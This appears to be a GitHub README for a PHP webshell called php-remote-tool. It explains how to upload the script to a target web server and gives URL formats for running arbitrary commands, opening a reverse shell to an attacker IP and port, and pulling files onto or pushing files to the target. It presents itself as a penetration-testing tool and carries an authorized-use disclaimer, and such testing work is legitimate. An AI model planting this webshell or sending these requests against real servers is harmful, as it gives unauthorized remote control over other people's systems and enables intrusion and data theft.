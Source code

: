 ## PHP Remote Tool
Author: Yavuz Sahbaz
GitHub: https://github.com/YavuzSahbaz

# Overview
php-remote-tool is a PHP webshell script that enables remote command execution, reverse shell initiation, file downloading, and file uploading on a target system running a web server with PHP support. This script is designed for use during penetration testing exercises or system administration tasks where you have permission to perform these actions on the target system. Unauthorized use may be illegal and unethical.

# Usage
Upload the php-remote-tool script to the target web server.
Access the script through a web browser or a tool like curl or wget.
Execute commands
To execute a command on the target system, use the following URL format:


Copy code
http://target.com/path/cmd.php?cmd=[COMMAND]
Replace [COMMAND] with the command you want to execute on the target system.

#Initiate reverse shell
To initiate a reverse shell to your system, use the following URL format:


Copy code
http://target.com/path/cmd.php?revshell=[ATTACKER_IP]:[ATTACKER_PORT]
Replace [ATTACKER_IP] with your IP address and [ATTACKER_PORT] with the port you want to use for the reverse shell connection. Make sure to set up a listener on your system to receive the connection.

# Download a file
To download a file from a URL and save it on the target system, use the following URL format:


Copy code
http://target.com/path/cmd.php?download=[URL]&filename=[FILENAME]
Replace [URL] with the URL of the file you want to download, and [FILENAME] with the desired name for the saved file on the target system.

# Upload a file
To upload a file to the target system, use the following URL format:

Copy code
http://target.com/path/cmd.php?upload&filepath=[FILE_PATH]
Replace [FILE_PATH] with the desired file path for the uploaded file on the target system. Use an HTTP POST request to send the file with the Content-Type header set to multipart/form-data and the file parameter named "file".

# Disclaimer
This PHP webshell script is intended for educational purposes and ethical use only. Unauthorized use of this script may be illegal and unethical. Always make sure you have permission to perform any action on the target system and follow ethical hacking principles and guidelines. The author and any contributors are not responsible for any damage caused by unauthorized use of this script.
